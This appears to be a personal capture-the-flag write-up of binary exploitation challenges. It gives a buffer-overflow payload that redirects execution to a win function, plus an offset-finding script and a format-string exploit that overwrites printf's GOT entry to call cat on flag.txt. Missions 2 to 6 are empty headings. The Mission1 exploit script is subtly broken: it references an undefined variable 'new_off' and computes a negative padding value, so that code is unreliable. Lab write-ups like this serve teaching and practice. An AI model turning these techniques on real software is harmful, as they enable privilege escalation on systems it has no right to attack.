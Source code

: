# Binary challenges

The goal of all challenges is to read the content of file flag.txt, that needs upper privileges.

## Mission0: System of a BOF

The vulnerability to exploit is a buffer overflow. The idea is to overwrite the return address with the address of function win.

In order to get the exact position of the return address I used the function cyclic from pwntools. \
The address of win can be found in gdb with the command:

```
 info address win
```

Now I have everything to craft the exploit with python:

```
win_address = "\xcb\x84\x04\x08"
offset = 144
print("pie!" + "A" * offset + win_address)
```

## Mission1: Baby ASCII Art

The vulnerability to exploit is a string format.

The general idea is to be able to execute the function cat, present in the binary, passing by arguments "flag;".

I had to craft a string format exploit to write in the return address of the printf function with the one of cat. The address of printf can be found in the binary with the command:

```
readelf -s mission1 | grep printf
```

The offset (displacement) to be used in the exploit can be easily found by writing a small script in python that uses the string format vulnerability and tries multiple values.

<pre data-overflow="wrap"><code>import subprocess
<strong>path = ['env', '-i', './mission1/mission1']
</strong>cat = "> ^ &#x3C;"
start = 1
end = 100

for i in range(start, end + 1):
	check = "AAAA%" + str(i) + "$x"

	process = subprocess.Popen(path, stdin=subprocess.PIPE, stdout=subprocess.PIPE)
	
	pay = "2\n" + check + cat + "\n" + "3\n" + "4\n" 
	output, error = process.communicate(input=pay)
	print("Testing: " + str(i) + "\tOutput: " + str(output) + "\n")

</code></pre>

&#x20;

Now I have everything to craft the exploit with python:

<pre data-overflow="wrap"><code>#to enter in create_art and exploit the string format vulnerability
<strong>start = "2\n" 
</strong>#prepare the argument of cat()
win= "flag;"
#to pass the check on the selected ascii art
cat = "> ^ &#x3C;"
#string format exploit
off = 59
off_1 = off + 1
printf = "\x10\xb0\x04\x08"
printf_2 = "\x12\xb0\x04\x08"
N_1 = 0x0804 - 8 - 8
N_2 = 0x0804 - 0x8a09

exp = printf_2 + printf + "%" + str(N_1) + "c%" + str(new_off) + "$hn%" + str(N_2) + "c%" + str(off_1) + "$hn" 

#to enter in view_saved_art two times: the first one to put in place the exploit, and the second to enter in the overwritten address of printf
end = "\n 3\n 3\n 4\n"
print(start + win + exp + cat + end)

</code></pre>

## Mission2: Muda

## Mission3: ret2thefuture

## Mission4: Darkroom&#x20;

## Mission5: 90s&#x20;

## Mission6: Endianness Problem



